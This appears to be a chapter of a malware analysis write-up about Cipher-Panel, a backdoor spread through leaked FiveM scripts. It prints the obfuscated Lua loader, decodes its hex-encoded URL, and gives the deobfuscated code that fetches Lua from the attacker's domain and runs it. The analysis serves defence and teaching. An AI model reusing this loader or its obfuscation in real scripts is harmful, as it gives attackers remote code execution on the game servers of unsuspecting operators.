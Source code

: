 ## Chapter 1 (Original Entry)
This chapter contains the breakdown of the original entry code used by Cipher-Panel.

### Introduction
The original entry code is a very simple snippet of code that can be inserted into any FiveM script that is used as a payload to download the malicious code.

The normal method for the sharing of this is through leaked scripts uploaded by users that only intend to gain access and extort people for money.

#### Original Code
```lua
    local Enchanced_Tabs = {
        Ench, Support, Host, Pairs,
        Realease, Callbacks, Source,
        Hosting, Event, PerformHttpRequest,
        assert, server, load, Spawn, materials
    }

    local random_char = {
        '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
        '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69',
        '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
    }

    function str_utf8()
        _empt = ''
        for id,it in pairs(random_char) do
            _empt = _empt..it
        end
        return (_empt:gsub('..', function (cc)
            return string.char(tonumber(cc, 16))
            
        end))
    end

    Enchanced_Tabs[10](str_utf8(), function (e, d)
        local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
        if (d == nil) then return end
        s()
    end)
```

Just from looking at this code, we can gather a fair amount of information.
  - The code is designed to look clean by using function names that aren't associated with malicious code such as **random_char**.
  - They are hiding function names encoded with UTF-8 in an array that they convert rather than keeping function names in all of the malicious functions.

This being said we have to map the values to better understand the code. This is done by turning `Enchanced_Tabs[13]` into the corresponding index in the UTF-8 encoded array. We will also take this chance to normalize the field names and remove the junk code used to obscure the real functionality.

#### UTF-8 Array Reversal
```
Input: '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72', '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
Encoded: \x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x69\x3f\x74\x6f\x3d\x6c\x36\x54\x72\x32
Plain Text: https://cipher-panel.me/_i/i?to=l6Tr2
```

#### Function Name Array Mapping
```diff
Enchanced_Tabs[1] = Ench; (Junk Code)
Enchanced_Tabs[2] = Support; (Junk Code)
Enchanced_Tabs[3] = Host; (Junk Code)
Enchanced_Tabs[4] = Pairs; (Junk Code)
Enchanced_Tabs[5] = Realease; (Junk Code)
Enchanced_Tabs[6] = Callbacks; (Junk Code)
Enchanced_Tabs[7] = Source; (Junk Code)
Enchanced_Tabs[8] = Hosting; (Junk Code)
Enchanced_Tabs[9] = Event; (Junk Code)
+ Enchanced_Tabs[10] = PerformHttpRequest;
+ Enchanced_Tabs[11] = assert;
Enchanced_Tabs[12] = server; (Junk Code)
+ Enchanced_Tabs[13] = load;
Enchanced_Tabs[14] = Spawn; (Junk Code)
Enchanced_Tabs[15] = materials; (Junk Code)
```

#### Final Mapped Code
```lua
    PerformHttpRequest("https://cipher-panel.me/_i/i?to=l6Tr2", function (errorCode, responseBody)
        local payload = assert(load(responseBody))
        if (responseBody == nil) then return end
        payload()
    end)
```

The final mapped code continuously makes an HTTP request to an endpoint that is provided to paid users by Cipher-Panel. This endpoint can't be accessed normally as they have Cloudflare page rules set up to only accept the User-Agent that FiveM makes HTTP requests with (FXServer/PerformHttpRequest). The responseBody field returns the body from the endpoint that contains lua code for the next step of this fuck fest.

[Chapter 2 (Infection)](https://github.com/ericstolly/cipher/blob/main/chapters/chapter-2-infection.md)
